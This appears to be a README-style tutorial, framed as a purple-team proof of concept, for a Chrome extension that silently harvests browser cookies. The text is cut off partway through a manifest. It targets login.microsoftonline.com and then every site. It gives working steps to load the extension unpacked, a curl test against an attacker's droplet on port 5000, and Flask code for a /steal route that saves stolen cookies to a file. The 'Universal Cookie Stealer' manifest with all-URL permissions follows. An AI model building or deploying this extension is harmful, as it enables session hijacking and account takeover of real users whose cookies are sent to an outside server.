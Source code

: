 Make sure you replace (http://your-droplet-ip) with your Ubuntu IP.

What This Does
1. Waits for a tab to finish loading.
2. Checks if the URL matches the target domain.
3. Uses chrome.cookies.getAll() to extract cookies.
4. Sends them to your server using fetch().

## Testing
1. First, fire up server.py on Ubuntu.
2. Open Chrome and go to chrome://extensions/.
3. Enable Developer Mode.
4. Click Load unpacked and select your extension folder.
5. Once loaded, the extension will silently monitor tabs and send cookies when the target domain is visited.

We will use developer mode for the purple team as its too much headache to create a developer account and send this to the chrome store.

Additional note is my Digital Ocean does not have the firewall turned on, but if you do, you need to allow for port 5000 as thats what I am using in my Flask script.

As the Flask server creates a URL directory called /steal, you can test connectivity to it via curl http://your-droplet-ip:5000/steal. Your Flask app is just receiving the cookies via a POST request and printing them to the console or terminal.

If you want to store the cookies in a file inside a folder called steal, you can modify your Flask route like this:
```
import os
import json

@app.route('/steal', methods=['POST'])
def steal():
    data = request.json
    os.makedirs("steal", exist_ok=True)
    with open("steal/cookies.json", "w") as f:
        json.dump(data, f, indent=2)
    return "Saved", 200
```

This will:
1. Create a steal folder if it doesn’t exist.
2. Save the cookies to steal/cookies.json.


## Grab from any URL
To make your Chrome extension PoC grab cookies from any site the user visits (instead of just login.microsoftonline.com), you’ll need to update both the manifest.json and background.js files to broaden permissions and generalize the logic.

The update Manifest file would be:
```
{
  "name": "Universal Cookie Stealer",
  "version": "1.0",
  "manifest_version": 3,
  "permissions": [
    "cookies",
    "tabs",
    "scripting"
  ],
  "host_permissions": [
    "<all_urls>"
  ],
  "background": {
```
